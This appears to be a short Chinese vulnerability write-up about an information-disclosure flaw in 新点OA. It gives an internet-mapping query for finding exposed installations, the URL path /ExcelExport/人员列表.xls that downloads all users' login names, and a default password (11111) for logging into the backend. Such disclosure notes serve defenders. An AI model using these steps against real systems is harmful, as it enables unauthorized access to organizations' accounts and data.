 # 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

<a-checkbox checked>新点OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="新点OA"</a-checkbox></br>

## 漏洞复现

构造的Url为, 将会下载人员列表文件

```plain
/ExcelExport/人员列表.xls
```



![img](/assets/PeiQi-Wiki/img/xd-1.png)



通过获取的登录名登陆后台(默认密码11111)